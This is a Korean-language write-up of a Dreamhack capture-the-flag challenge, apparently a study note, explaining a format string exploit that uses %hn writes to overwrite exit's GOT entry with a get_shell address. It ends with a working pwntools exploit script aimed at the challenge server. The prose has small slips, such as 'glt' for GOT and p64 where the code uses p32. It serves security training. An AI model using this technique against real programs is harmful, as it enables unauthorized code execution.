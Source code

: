 따라서, `%n`으로 `i386` 기준 `4bytes` 단위로 입력하면 너무 길어지므로, `%hn`을 통해 `2bytes`로 짤라서 입력하면 `0x0804`, `0x8609`로 입력할 수 있기 때문에 문자열 길이가 훨씬 짧아진다.

<br>

### 참고

- `%n` : `i386` 에서는 주소에 `4bytes` 크기 단위로 입력, `amd64` 에서는 주소에 `8bytes` 크기 단위로 입력

- `%hn` : 아키텍처 상관없이 `2bytes` 크기 단위로 입력

- `%hhn` : 아키텍처 상관없이 `1bytes` 크기 단위로 입력

따라서, 높은 주소부터 해석하기 때문에 `exit@glt + 2` 주소에 `0x0804`를 입력해주고, `exit@glt` 주소에 `0x8609`를 입력해주면 된다. 그럼 `exit@glt`에는 최종적으로 기존대로 `4bytes` 단위로 해석할 때, `0x08048609`를 주소로 읽는다.

그러기 위해서는 `payload`에 `0x0804`와 `0x8609` 중 더 짧은 길이를 먼저 써준 후, 그 길이를 뒤에 쓸 길이에서 빼준만큼 뒤에 써주면 된다. 왜냐하면 `%hn`을 두 번 쓰면 뒤의 `%hn`은 첫번째 `%hn` 다음에 출력된 문자열의 길이가 아닌 처음부터 출력된 문자열의 길이를 저장하기 때문이다.

따라서, 더 작은 `0x0804 = 2052`를 `%2052c`로 출력해준 후, `0x8609 = 34313`을 `34313 - 2052 = 32261` 으로 계산하여 `%32261c`로 출력해주면 된다.

결론적으로, `%2052c` + `%[n]$hn` + `%32261` + `%[n]$hn` + `p64(exit_got + 2)` + `p64(exit_got)`를 해주면 된다.

포맷스트링 형식자 길이가 `23bytes` 이기 때문에, 중간에 `b"a"`를 하나 추가해서 `24bytes`를 맞춰주면, `p64(exit_got + 2)`는 `[rsp + 24]`인 `7`번째에 존재하고, `p64(exit_got)`는 `8`번째에 존재하게 된다.

따라서, 첫번째 `n`은 `7`으로, 두번째 `n`은 `8`로 설정하여 페이로드를 전달해주면 익스플로잇 성공이다.

<br>

## Exploit

```py
from pwn import *

context.arch = "i386"

p = remote("host3.dreamhack.games", 10698)
elf = ELF("./basic_exploitation_002")

get_shell = elf.symbols['get_shell']
# get_shell = 0x08048609  # 134514185
exit_got = elf.got['exit']
# exit_got = 0x804a024

# 0x0804 = 2052
# 0x8609 = 34313
payload = b"%2052c%7$hn"        # 0x0804 = 2052 : 길이 11bytes
payload += b"%32261c%8$hn"      # 0x8609 = 34313 (34313 - 2052 = 32261) : 길이 12byte
payload += b"a"                 # 24bytes로 맞추기 위해 1bytes 추가
payload += p32(exit_got + 2)    # 여기까지 28바이트 차지
payload += p32(exit_got)

# payload = b"%34313c%7$hn" # 여기까지 12바이트 차지
# payload += b"%2052c%8$hn" # 여기까지 23바이트 차지
# payload += b"a" # 여기까지 24바이트 차지
# payload += p32(exit_got) # 여기까지 28바이트 차지
# payload += p32(exit_got + 2)

p.send(payload)
p.interactive()
```
